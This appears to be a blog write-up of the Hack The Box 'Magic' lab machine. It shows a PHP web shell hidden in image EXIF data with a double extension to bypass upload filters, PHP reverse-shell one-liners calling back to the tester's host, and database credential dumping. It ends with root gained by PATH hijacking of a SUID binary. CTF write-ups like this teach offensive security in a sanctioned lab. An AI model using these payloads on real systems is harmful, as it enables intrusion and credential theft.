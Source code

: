 ```yaml
---
title: "HTB Magic Write-up"
date: 2020-05-12T00:00:00-00:00
description: A write-up for Magic on hackthebox.eu
tags: ['hackthebox', 'ctf']
---
```


A write up for another HTB machine, Magic.

Starting off with a port scan, I noticed a web server running and began enumerating directories with gobuster.

```text
root@kali:~# nmap -Pn 10.10.10.185

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```text
root@kali:~# ./gobuster dir -u http://10.10.10.185 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php

/index.php (Status: 200)
/images (Status: 301)
/login.php (Status: 200)
/assets (Status: 301)
/upload.php (Status: 302)
```

Checking out the website a little bit, it appears to be some sort of image hosting application. The ability to upload images appears to be gated by `login.php`. I wasn’t able to view `upload.php` in my browser due to a redirect. However, after requesting the page with curl, I was able to view it locally.

```bash
curl http://10.10.10.185/upload.php > upload.html
```

After updating my pages href links and form to point back to `http://10.10.10.185`, the formatting returns. I am still redirected to the login page after trying to upload an image, which leads me to believe it didn’t work.

However, after seeing the paths of the images on the site’s main page `/images/uploads/<file>`, I tried navigating to where my image should be and it was indeed uploaded.

I immediately tried to upload a PHP web shell, but the file upload appears to only allow image file extensions. After doing a little reading on how to bypass file type restrictions, I had to do two things.

The first thing I needed to do was embed PHP code in my image’s metadata using `exiftool`. Here I’m embedding a simple PHP web shell in `image.png` comment field.

```text
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' image.png
```

Second, we simply need to change the file extension type to `image.php.png`. After uploading our web shell, we can visit it and see that we have limited access with the `www-data` user.

```text
curl -o - http://10.10.10.185/images/uploads/image.php.png?cmd=whoami

<cipher text>
���2tEXtComment<pre>www-data
���
IDATx�Ѕa�@�=������L�Q   Ҏ����w��D$�->jϤ��
<cipher text>
```

Our output isn’t very elegant, so I’d like to upgrade my shell to make enumeration a little bit easier. I created a second `image2.php.png`, but this time I embedded a PHP reverse shell.

```text
exiftool -Comment='<?php $sock=fsockopen("10.10.14.15",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>' image.php.png
```

After uploading the second shell and setting up a local netcat listener, request the page to create the reverse shell. After receiving the connection, I use python to create a slightly friendlier shell.

```text
root@kali:~# nc -nlvp 4242
listening on [any] 4242 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.185] 57914
/bin/sh: 0: can't access tty; job control turned off

$ whoami
www-data

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/Magic/images/uploads$
```

Once I was able to browse around with a shell, I immediately found a database file containing credentials for the local MySQL database, close to `www-data` home/working directory.
```text
www-data@ubuntu:/var/www/Magic$ cat db.php5
 
<?php
class Database
{                                                                                                                                                 
    private static $dbName = 'Magic' ;                                                                                                            
    private static $dbHost = 'localhost' ;                                                                                                        
    private static $dbUsername = 'theseus';                                                                                                       
    private static $dbUserPassword = 'iamkingtheseus';
<snip>
```

`netstat` revealed that a MySQL database is indeed listening. Normally, I would just use the mysql CLI client to connect, but it was not installed. I checked which mysql binaries were avilable and decided to simply dump the database.

```text
www-data@ubuntu:/var/www/Magic$ ls -lh /usr/bin|grep mysql
-rwxr-xr-x  1 root root     3.5M Jan 21 06:10 mysql_config_editor
-rwxr-xr-x  1 root root     3.7M Jan 21 06:10 mysqladmin
-rwxr-xr-x  1 root root     3.7M Jan 21 06:10 mysqldump
-rwxr-xr-x  1 root root     3.7M Jan 21 06:10 mysqlshow


www-data@ubuntu:/var/www/Magic$ mysqldump -u theseus -p Magic > dump.sql
```

A mysql dump will contain all of the database queries required to rebuild the database. In our case, the dump contained a set of credentials for another user, `theseus`.

```text
www-data@ubuntu:/var/www/Magic$ cat dump.sql
<snip>
-- Dumping data for table `login`
--
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
<snip>

www-data@ubuntu:/var/www/Magic$ su theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:/var/www/Magic$ whoami
theseus

theseus@ubuntu:/var/www/Magic$ cat ~/user.txt
<user_flag>
```

On to root privledge escalation, I added my keys and SSH’d as `theseus`. I was stuck for quite a bit and ended up relying on two enumeration scripts, `linpeas.sh` and `pspy64`.

https://github.com/DominicBreuker/pspy

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite

Linpeas highlighted `/bin/sysinfo` as concerning, but I didn’t immediately understand why.

```text
theseus@ubuntu:~$ sh linpeas.sh
<snip>
[+] Readable files belonging to root and readable by me but not world readable
-rwsr-x--- 1 root users 22040 Oct 21  2019 /bin/sysinfo
<snip>
```

I spent a long time running other enumeration scripts and trying to understand how sysinfo works. Eventually after understanding fdisk and while monitoring command activity with `pspy64`, I noticed that `/bin/sysinfo` was relying on the `PATH` to find `fdisk` when running.

I created my own `fdisk` executable, which simply spawns a PHP reverse shell, and added it’s location to my current path. Executing `/bin/sysinfo` spawns the reverse shell.

```text
theseus@ubuntu:~$ echo '$sock=fsockopen("10.10.14.15",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);' > fdisk
theseus@ubuntu:~$ chmod 755 fdisk
theseus@ubuntu:~$ export PATH=/home/theseus:$PATH
theseus@ubuntu:~$ /bin/sysinfo
<snip>
```

We catch the reverse shell with a local listener and can read the root flag.

```text
root@kali:~# nc -nlvp 4242
listening on [any] 4242 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.185] 57914
/bin/sh: 0: can't access tty; job control turned off

$ whoami
root

$ cat /root/root.txt
<root_flag>
```